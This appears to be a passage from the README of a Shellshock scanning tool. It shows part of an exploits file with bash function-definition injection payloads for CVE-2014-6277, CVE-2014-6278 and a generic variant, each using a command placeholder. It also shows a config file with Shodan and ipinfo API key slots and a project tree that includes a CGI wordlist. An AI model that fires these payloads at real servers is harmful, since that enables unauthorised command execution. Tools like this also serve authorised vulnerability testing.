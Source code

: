 ```json
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 20,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree

```bash
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print00.png
│       ├── print01.png
│       ├── print02.png
│       └── print03.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_shock.py
│   ├── color_shock.py
│   ├── debug_shock.py
│   ├── file_shock.py
│   ├── __init__.py
│   ├── request_shock.py
│   ├── shodan_shock.py
│   └── thread_shock.py
├── output
│   └── vuln.txt
├── README.md
└── wordlist
    └── cgi.txt
```
